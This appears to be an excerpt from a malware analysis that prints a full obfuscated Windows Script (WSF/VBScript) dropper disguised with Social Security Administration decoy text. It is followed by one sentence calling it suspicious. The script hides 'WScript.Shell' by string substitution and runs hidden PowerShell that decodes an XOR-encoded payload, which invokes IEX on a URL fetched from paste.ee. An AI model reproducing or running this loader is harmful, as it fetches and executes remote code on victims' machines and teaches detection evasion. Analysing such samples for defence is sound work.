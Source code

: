 ```javascript
'      The agency also provides valuable resources and guidance to help individuals understand their benefits and make informed decisions about their future.
'      Through its comprehensive programs and services, the SSA continues to play a critical role in promoting economic security and well-being for all Americans.
'      manage-tujthyqgfu.wsf has been replaced.



'strArgs = "uxhiakccit"

'For I = 0 to WScript.Arguments.Count - 1
   'strArgs = strArgs & " " & WScript.Arguments(I)
'Next

'strArgs = strArgs & " -legacy_Vista"
With CreateObject(Replace("WscREDROript.ShREDROell" , "REDRO" , ""))
    .Run "powershell ""$ReDrO = InvOkE-eXpreSSion ( ( [char[]] (62 , 72,39,61 ,83 , 127,66,50,84 , 127 , 61 , 33 , 62, 72, 95, 58, 39, 58 , 62 ,72 ,49 , 61,77 , 55, 85, 88,80, 61, 33 , 62, 72 ,95 ,94, 58, 39,58 ,62, 72, 95,49, 61 , 127 ,89,78 , 58 ,84,127,78,52 , 77 , 61, 33, 62,74 ,91 , 89 , 39 ,61, 127 , 88 , 89 ,86, 61, 33,62 ,98,98, 58 ,39 ,58, 62, 74, 91 , 89 , 49, 61, 83, 127,84, 61,33, 62,72,85,58, 39 ,58 , 62 ,98 , 98 ,49,61,78,51 , 52, 94 ,85 ,77 ,84, 86 , 85,61,33, 62, 96 , 96, 39 , 61 ,85, 90,42 , 50 ,60 ,50 ,61 ,61 , 114,110 , 110 , 106, 105,32, 53, 53 , 106,123 ,105, 110 , 127,52,127,127, 53, 104, 53,40, 92,94,96,126, 53, 42, 61, 61,51 , 61 , 52,72, 127 ,74,86 , 91, 89 , 127 ,50,61,85 ,90,42, 50, 60, 61 ,54 , 61, 91 ,94, 73,78 , 72, 83 ,84 ,93,61,51, 33 ,115 ,127,98 , 50,62,72 ,95, 94 , 49 , 62,72 , 85 , 49, 62 ,96 , 96 , 51 ) | %{[char] ( $_-BXOR '0x1a' ) } )-JOIN'') ; powershell $ReDrO"" " , 0 , True    
End With
'Set objShell = WScript.CreateObject("WScript.Shell")

'Set objExecObject = objShell.Exec("%comspec% /c manage-tujthyqgfu.exe " & strArgs)

'Do While Not objExecObject.StdOut.AtEndOfStream
    'WScript.StdOut.WriteLine objExecObject.StdOut.ReadLine()
'Loop

'Do While Not objExecObject.StdErr.AtEndOfStream
    'WScript.StdErr.WriteLine objExecObject.StdErr.ReadLine()
'Loop

</script>
</job>
</package>

```


The scripts appear suspicious due to their content. The note highlights that the Social Security Administration (SSA) may raise concerns regarding integrity. Nevertheless, we will focus on the analysis in the next phase, particularly examining the code illustrated in Fig 3.

